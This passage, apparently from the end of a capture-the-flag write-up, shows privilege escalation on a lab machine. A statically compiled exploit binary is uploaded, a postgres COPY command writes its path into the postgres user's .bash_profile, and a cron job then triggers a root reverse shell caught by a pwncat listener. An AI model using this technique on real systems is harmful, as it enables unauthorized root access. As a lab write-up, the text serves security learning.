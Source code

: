 Executing this on the box, returns a `version "GLIBC_2.32" not found` error, meaning it lacks GCC and necessary shared library objects, it needs to be compiled statically using the `--static` flag.

```bash
> gcc exploit.c -o exploit.out --static
> file exploit.out
exploit.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=c5897a5e18cb4e66dfd9bda71dbb57a78260ae73, for GNU/Linux 3.2.0, not stripped
```

Uploaded the statically compiled binary and made it executable.

```bash
(remote) wesley@download:/home/wesley$ chmod +x /tmp/abraxas/exploit.out
(remote) wesley@download:/home/wesley$ ls -la /tmp/abraxas/exploit.out
-rwxrwxr-x 1 wesley wesley 751728 Aug 11 18:33 /tmp/abraxas/exploit.out
```

I leveraged the the postgres attributes to execute the static binary in the interactive session.

```bash
download=> COPY (SELECT '/tmp/exploit.out') TO '/var/lib/postgresql/.bash_profile';
COPY 1
```

When the cron job executes, I get a shell back as root.

```bash
> pc -lp 9005
[23:38:24] Welcome to pwncat 🐈!                                 __main__.py:164
[23:38:53] received connection from 10.10.11.226:35256                bind.py:84
[23:38:54] 10.10.11.226:35256: registered new host w/ db          manager.py:957
(local) pwncat$
(remote) root@download:/root# ls -al root.txt
total 52
drwx------  7 root root 4096 Jul 19 16:07 .
drwxr-xr-x 19 root root 4096 Jul 19 16:06 ..
lrwxrwxrwx  1 root root    9 Apr 21 14:33 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  5 root root 4096 Jul 19 15:35 .cache
drwxr-xr-x  3 root root 4096 Jul 19 15:35 .local
-rwxr-xr-x  1 root root  259 Apr 21 17:04 manage-db
-rw-r--r--  1 root root  770 Apr 21 17:05 management.py
drwxr-xr-x  5 root root 4096 Jul 19 15:35 .npm
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 11 17:32 root.txt
drwx------  2 root root 4096 Jul 19 15:35 .ssh
drwxr-xr-x  6 root root 4096 Jul 19 15:35 venv
-rw-r--r--  1 root root   39 Jul 17 11:59 .vimrc
(remote) root@download:/root#

```

**Pwned!!**
